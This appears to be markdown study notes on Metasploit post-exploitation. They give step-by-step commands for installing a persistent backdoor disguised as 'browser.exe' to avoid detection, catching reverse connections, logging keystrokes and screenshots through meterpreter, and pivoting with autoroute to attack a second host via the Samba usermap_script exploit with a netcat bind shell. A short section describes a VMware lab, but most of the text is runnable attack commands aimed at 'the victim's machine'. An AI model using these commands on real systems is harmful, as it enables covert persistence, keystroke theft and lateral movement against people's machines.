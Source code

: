 # Post connection attacks
-   attacks after connections to the victim's machine using metasploit in meterpreter console

## Maintaining access
-   How to maintain access after getting one through backdoor and Metasploit:
    1)  Use a handler, which is a service to generate the backdoor payload. For example `c/meterpreter/rev_http_service`. This way the backdoor will install as service to the victims machine and it will run whenever he will run the machine. This doesn't always work.
    2)  Inject our created backdoor payload and inject to the services manually in meterpreter after gaining the access to the victim’s machine:

```bash
backgroud # in meterspreter make the connection run in the bg
sessions -l # get list of sessions
use exploit/windows/local/persistence # switch handler in msf exploit(handler), after running should show up msf exploit(persistence)
show options
set EXE_NAME browser.exe # this is name of our backdoor, which will show up under the processes, using something like browser is less detectable
set SESSION 2 # set this to session id which should the exploit run on
show advanced # shows more (advanced) options
set EXE::Custom /var/html/backdoor.exe # set the path to the payload which should be run on the victim's machine. In our case it is the backdoor
show advanced # check if set right
exploit
```
-   after running exploit in this case, it uploads the /var/html/backdoor.exe to the victim's machine in set session (2) and installs it.
-   also, will show "clean up Meterpreter", which allows to delete the backdoor from the victim's machine, which should be used after not needing the access anymore. Could look like `/root/.msf4/logs/persistence/MSEGEWIN10_2020612/MSEGEWIN10_2020612.2445.rc`
-   to test the right setup:
```bash
sessions -K # kill all the sessions
sessions -l
use exploit/multi/handler
show options # check if set correctly, otherwise set LPORT and LHOST as needed
exploit     # victim's pc should automatically connect now
```

## Capturing keystrokes and screenshots
In meterpreter:
```bash
keyscan_start # recording everything
keyscan_dump # print all the captured key strikes. It is organized and it shows also which website for example was it typed on
keyscan_stop # stop recording
screenshot # get screenshot
```

## Pivoting
-   use the hacked device as pivot to try to get access to other devices in the network
-   for testing environment, network settings in VMware need to be changed:
    1) Kali linux machine: keep it NAT
    2) 1st windows Windows machine:
        -   1st Network: keep one adapter NAT
        -   2nd Network add second network adapter (Add button on left bottom corner), and set it as Bridged
    3) 2nd Windows / Linux machine (tested with Metasploitable Linux):
        -   set it as Bridge
        -   this is the machine that Kali will connect to through 1st Windows machine
-   connect to the Windows 1 through the created backdoor in metasploit as previously (`session -l` and `sessions -i 1`)
```bash
ifconfig # find machines with ip addresses
background
use post/multi/manage/autoroute
show options
set SESSION 1 # set session id which you are connected to the victim's machine
set SUBNET 10.20.15.0 # set subnet to subnet which Kali doesn't have access, but wants to connect as attacker
exploit
```
-   this creates connection between victim's machine and Kali (attacker), so the set subnet is now visible from the Kali machine as well
```bash
use exploit/multi/samba/usermap_script
show options
set RHOST 10.20.15.4 # ip address of the 2nd victim's machine found from previous ifconfig
show payloads
set PAYLOAD cmd/unix/bind_netcat
show options
exploit
```
-   this will connect Kali machine to the 2nd victim’s machine
